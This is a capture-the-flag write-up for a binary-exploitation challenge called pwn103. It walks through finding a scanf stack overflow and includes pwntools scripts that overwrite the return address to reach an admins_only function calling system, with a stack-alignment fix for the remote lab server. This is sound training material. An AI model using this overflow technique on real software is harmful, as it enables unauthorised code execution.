 # Challenge Name : pwn103

category : pwn

# File


Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : False
```

Taking a look at main there's scanf function which can be exploit. So lets try exploit by running the program

`give permission`
```
chmod +x pwn103-1644300337872.pwn103
```
`run program`
```
./pwn103-1644300337872.pwn103
```

Lets give a bunch of AAAAAAAAAAAAAAAAA

it just call the main function back when we give invalid input

![alt text](images/pwn103.png)

Okay lets check the case 1 till 5 the function they called whether there is vulnerabilities there

In case 3 , There is scanf function

Lets try to give a bunch of A again


```
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try harder!!! 💪
zsh: segmentation fault  ./pwn103-1644300337872.pwn103
```

We found the vulnerable function to be exploit

`But how to call system ???`

There is no call system in main or any other function in main. But if we take a look at functions


![alt text](images/pwn103_1.png)

There's sys.admins_only . So lets  checkout this function

![alt text](images/pwn103_3.png)

There's is call system

## Goal

Now our goal is to change the return address of general function which can be exploit to sys.admins_only() function. So instead of going back to main() it return to sys.admins_only().

![alt text](images/pwn103_5.png)


# Python Script

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + admin_address

p = process()

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

## Remote

#p = process()
p = remote("10.10.100.218",9003)

By changing that code only

we get into an MOVAPS  issue which affect ubuntu 18 which is the our remote server

to fix this issue. 
we have to padding ROP chain with extra ret or skip a push intruction
To make life easy I just add banner address before the admin-address

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
banner_address = p64(binary.symbols.banner)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + banner_address + admin_address

#p = process()
p = remote("10.10.100.218",9003)

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

